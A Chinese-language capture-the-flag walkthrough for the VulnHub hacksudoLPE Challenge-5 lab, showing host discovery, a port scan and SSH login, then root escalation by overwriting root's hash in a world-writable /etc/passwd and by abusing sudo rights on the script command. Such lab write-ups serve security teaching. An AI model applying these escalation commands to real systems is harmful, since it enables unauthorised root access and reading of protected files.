



下载地址：https://download.vulnhub.com/hacksudo/hacksudoLPE.zip
Challenge-5 涉及两种提权方式：/etc/passwd 文件可写和script 命令提权。下面从主机发现开始逐步演示。
主机发现
使用 arp-scan 扫描局域网存活主机：
arp-scan -l找到目标靶机 IP 后 SSH 登录。
端口扫描
nmap 扫描开放端口与服务：
nmap --min-rate 10000 -p- 192.168.21.147目标仅开放 22 端口（SSH），直接通过 SSH 连接。
SSH 登录
使用已知账户登录靶机，查看 Challenge-5 的提权提示：
ssh user@192.168.21.147
cat /home/user/Challenge-5进入目标用户后查看 sudo 权限：
sudo -l/etc/passwd 提权
首先检查 /etc/passwd 是否可写：
ls -la /etc/passwd
发现文件权限为 -rw-rw-rw-，即所有用户均可写入。此时可以生成一个新的密码哈希并替换 root 用户的密码字段，或直接添加一个 uid=0 的新用户。
使用 openssl 生成密码哈希：
openssl passwd -1 -salt mywiki 123456得到哈希后，直接编辑 /etc/passwd，将 root 行中的 x 替换为生成的哈希：
root:$1$mywiki$xxxxxxxxxxxxxxxxxxxxx:0:0:root:/root:/bin/bash
保存退出后直接切换 root：
su root输入密码 123456 即可获得 root 权限。
script 提权
Challenge-5 中 user 拥有 script 命令的 sudo 免密权限。script 命令用于记录终端会话，但配合 sudo 可以执行任意命令实现提权。
执行以下命令直接获取 root shell：
sudo script -c /bin/bash或者使用 -c 参数执行任意命令读取敏感文件：
sudo script -c "cat /root/flag.txt" -q
-q 参数用于静默模式，不输出 script 自身的 banner 信息。
更多利用方式请参考 GTFOBins / script。